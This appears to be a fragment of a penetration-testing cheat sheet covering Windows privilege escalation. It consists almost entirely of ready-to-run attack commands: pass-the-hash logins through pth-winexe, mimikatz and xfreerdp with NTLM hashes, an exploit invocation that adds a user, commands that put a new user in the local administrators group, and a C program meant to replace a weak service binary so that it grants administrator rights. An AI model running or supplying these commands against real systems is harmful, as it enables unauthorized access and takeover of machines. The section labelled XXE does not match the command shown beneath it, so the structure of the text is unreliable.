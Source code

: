 ## XXE

```bash
python sym11_12_expl.py -t 127.0.0.1 -c "net user <user> <password> /add
```


# LPE
## Windows
### Hash Injection


```bash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:175a592f3b0c0c5f02fad40c51412d3a //<host-ip> cmd.exe

mimikatz # sekurlsa::pth /user:Administrateur /domain:<domain> /ntlm:cc36cf7a8514893efccd332446158b1a

xfreerdp /u:Administrator /pth:aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 /v:<host-ip> -O
```

### User and Domains

```bash
net view /DOMAIN:WORKGROUP
net group "Domain Admins"
net localgroup "Administrators"
```


#### add admin user

```bash
net user /add low <password>
net localgroup administrators low /add
```


### Insecure Files and Services

``` {.c breaklines=true bgcolor=bg fontsize=\footnotesize}
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */
int main ()
{
        int i;
        i=system ("net localgroup administrators low /add");
        return 0;
}

// compile with i686-w64-mingw32-gcc

```
